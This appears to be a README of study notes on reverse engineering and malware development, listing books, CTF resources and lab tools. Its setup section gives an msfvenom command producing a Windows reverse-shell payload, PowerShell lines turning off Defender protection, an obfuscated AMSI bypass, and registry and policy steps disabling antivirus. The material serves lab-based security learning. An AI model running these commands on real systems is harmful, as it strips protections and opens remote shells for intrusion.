 # Reverse Engineering
### References of Reverse Engineering
- Online Book - [The Ghidra Book](https://nostarch.com/GhidraBook) By Chris Eagle, Kara Nance.
- GitHub Repository - [CSAW CTF - Qualification Round 2018](https://github.com/mohamedaymenkarmous/CTF/tree/master/CSAWCTFQualificationRound2018#a-tour-of-x86---part-1) by mohamedaymenkarmous.
- **Free** Online Book - [Reverse Engineering For Beginners](https://mirrors.ocf.berkeley.edu/parrot/misc/openbooks/programming/ReverseEngineeringForBeginners.en.pdf) by Dennis Yurichev.
- Online Challenges -  [Reverse engineering challenges](https://challenges.re/) by Dennis Yurichev.

---

# Malware Development

## Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 or 10 VM
- Parrot 


## Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

## Turn off the defender

### Step 01
`Windows 10` or lower version should be fine after this step, but if you are testing in `Window 11+`, I recommend you to go through step 2 and 3 as well.
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```
![](./Screenshots/02.png)

### Step 02
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`
![](./Screenshots/03.png)

### Step 03
```powershell
# WIN + R 
regedit
```
Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
#### Then setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4

### Run Powershell as an administrator
```powershell
Start-Process powershell -Verb runAs

# Run the command prompt

powershell -Command "Start-Process cmd -Verb RunAs"

```

### References of Malware Development
- [**Nightmare** - An amazing intro to binary exploitation / reverse engineering course](https://guyinatuxedo.github.io/index.html) by [guyinatuxedo](https://github.com/guyinatuxedo).
- [**CTF Workshops** - About Challenges for Binary Exploitation Workshop](https://github.com/kablaa/CTF-Workshop) by [kablaa](https://github.com/kablaa).
- [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- cocomelonc (Zhassulan Zhussupov) (2021) https://cocomelonc.github.io/ (blog).
- [Medium Tutorial - DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

